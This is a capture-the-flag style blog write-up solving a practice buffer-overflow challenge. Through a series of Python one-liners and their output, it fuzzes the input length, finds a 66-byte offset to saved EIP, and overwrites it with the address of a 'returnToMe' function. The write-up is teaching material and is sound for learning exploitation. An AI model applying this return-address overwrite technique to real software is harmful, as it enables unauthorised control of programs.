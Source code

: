 buf1 - Another Buffer Overflow Challenge
========================================
date: 24/Feb/2014
summary: This is another buffer overflow challenge I found online. I posted a writeup on a similar challenge buf0 earlier and one for this challenge was long due. Finally today I got some time to document the solution.
tags: buffer overflow, writeups, reversing

The binary can be obtained from here: [buf1](/static/files/posts_buf1_challenge/buf1.bin). Let's see what `file` command has to tell us about this challenge file:

```console
$ file buf1.bin
buf1.bin: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x746bc251bceb3d50b635362140ec851bf6f85317, not stripped
```

So this binary, like it's [counterpart](https://7h3ram.github.io/posts/20140106_buf0-challenge.html), is also an x86 ELF with symbols included. Let's run `strings` as well over this file:

```console
$ strings buf1.bin
/lib/ld-linux.so.2
ktP=
__gmon_start__
libc.so.6
_IO_stdin_used
gets
puts
__libc_start_main
GLIBC_2.0
PTRh
UWVS
[^_]
W00T!
;*2$"
```

There's the `gets` syscall and the `W00T!` string which confirm that this indeed is very similar to the previous challenge. Before we execute this file, let's do some static analysis on it using IDA:

![image](/static/files/posts_buf1_challenge/ida-start.png)

Apart from the standard libc defintions and `main`, I see an interesting function called `returnToMe` at location 0x08048404. Let's follow this function and see what is it doing:

![image](/static/files/posts_buf1_challenge/ida-returntome.png)

Let's figure out the size of the buffer to know how many bytes would be needed to reach saved EIP:

```console
$ python -c 'print "A"*40' | ./buf1.bin
$ python -c 'print "A"*50' | ./buf1.bin
$ python -c 'print "A"*60' | ./buf1.bin
$ python -c 'print "A"*70' | ./buf1.bin
Segmentation fault (core dumped)
$
$ python -c 'print "A"*65' | ./buf1.bin
$ python -c 'print "A"*66' | ./buf1.bin
Illegal instruction (core dumped)
$
$ python -c 'print "A"*67' | ./buf1.bin
Segmentation fault (core dumped)
```

So, the binary accepts max 66B before `gets` overwrites saved EIP. Now we can inject the buffer with dummy input followed by the address of `returnToMe` function:

```console
$ python -c 'print "A"*66 + "\x04\x84\x04\x08"' | ./buf1.bin
W00T!
Segmentation fault (core dumped)
```

Done. But this time the program didn't exit cleanly. However, the challenge was to get the `returnToMe` function called and it was done successfully. But it's not always about completing challenges. Let's take it as a learning opportunity and understand why, being so similar, both challenges exited in different manner. To understand this and other such minute intricacies of buffer overflows read my previous posts starting with: [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html).

